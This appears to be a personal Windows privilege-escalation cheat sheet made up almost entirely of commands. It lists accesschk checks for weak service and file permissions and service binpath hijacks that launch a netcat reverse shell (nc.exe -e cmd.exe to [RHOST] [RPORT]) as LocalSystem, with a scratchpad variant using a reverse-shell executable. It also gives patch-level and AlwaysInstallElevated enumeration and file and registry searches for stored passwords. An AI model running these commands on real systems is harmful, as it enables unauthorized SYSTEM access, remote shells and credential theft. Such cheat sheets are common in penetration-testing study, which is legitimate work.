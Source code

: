 #requires sysinternals accesschk!
accesschk.exe -ucqv [service_name]

#(won't yield anything on Win 8)
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv [service_name] /accepteula

# Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwdqs "Authenticated Users" c:\ /accepteula

# Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.* /accepteula
accesschk.exe -uwqs "Authenticated Users" c:\*.* /accepteula

# Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""

sc qc upnphost

net start upnphost

+++++++++SCRATCHPAD+++++++++++++

sc config upnphost binpath= "C:\inetpub\rev443.exe"

----------------------------------------------------------------------------------

windows-privesc-check.exe --audit -a -o report

#WMIC
wmic /?
use wmic_info script!!

#WMIC Patch levels
wmic qfe get Caption,Description,HotFixID,InstalledOn

#specific patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

#AlwaysInstalledElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
